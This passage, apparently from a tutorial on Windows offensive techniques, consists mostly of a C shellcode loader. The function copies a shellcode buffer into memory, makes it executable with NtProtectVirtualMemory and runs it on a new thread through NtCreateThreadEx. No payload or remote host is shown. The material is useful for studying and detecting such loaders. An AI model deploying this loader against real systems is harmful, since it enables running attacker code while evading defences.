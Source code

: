 ```C
    memcpy(execMemory, shellcode, size);

    // Change protection
    status = NtProtectVirtualMemory(
        GetCurrentProcess(),
        &execMemory,
        &size,
        PAGE_EXECUTE_READ,
        &oldProtect
    );

    if (status != 0) {
        printf("NtProtectVirtualMemory failed: 0x%x\n", status);
        NtFreeVirtualMemory(GetCurrentProcess(), &execMemory, &size, MEM_RELEASE);
        return;
    }

    // Create thread
    HANDLE hThread = NULL;
    status = NtCreateThreadEx(
        &hThread,
        THREAD_ALL_ACCESS,
        NULL,
        GetCurrentProcess(),
        (LPTHREAD_START_ROUTINE)execMemory,
        NULL,
        0,
        0,
        0,
        0,
        NULL
    );

    if (status != 0) {
        printf("NtCreateThreadEx failed: 0x%x\n", status);
        NtFreeVirtualMemory(GetCurrentProcess(), &execMemory, &size, MEM_RELEASE);
        return;
    }

    // Wait for thread
    status = NtWaitForSingleObject(hThread, FALSE, NULL);
    if (status != 0) {
        printf("NtWaitForSingleObject failed: 0x%x\n", status);
    }

    // Cleanup
    NtClose(hThread);
    NtFreeVirtualMemory(GetCurrentProcess(), &execMemory, &size, MEM_RELEASE);
}

```
So, to recap and tie all of it together. 
